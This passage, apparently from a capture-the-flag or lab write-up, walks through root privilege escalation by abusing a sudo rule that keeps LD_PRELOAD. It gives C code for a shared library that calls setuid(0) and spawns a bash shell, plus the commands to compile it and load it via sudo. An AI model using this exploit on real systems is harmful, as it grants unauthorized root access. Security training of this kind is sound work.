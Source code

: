 
### Step 5: Root Access – Advanced Privilege Escalation

We check sudo permissions:

![pasted](./Pasted_image_20250503032354.png)

Here we find a twist — the command has `env=LD_PRELOAD`, meaning we can inject a shared library into a process.

> **LD_PRELOAD** is an environment variable in Unix-like systems that allows you to load a custom shared library before others. It's often used for hooking or overriding functions at runtime.

We write a malicious shared object to spawn a root shell:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor))
void spawn_shell() {
    setuid(0);
    system("/bin/bash");
}
```

Compile it:

```bash
gcc -shared -fPIC -o /tmp/shell.so shell.c
```

We then execute a binary (like `ls`) using sudo with `LD_PRELOAD` to trigger our payload:

```bash
sudo LD_PRELOAD=/tmp/shell.so ls
```

![pasted](./Pasted_image_20250503032703.png)
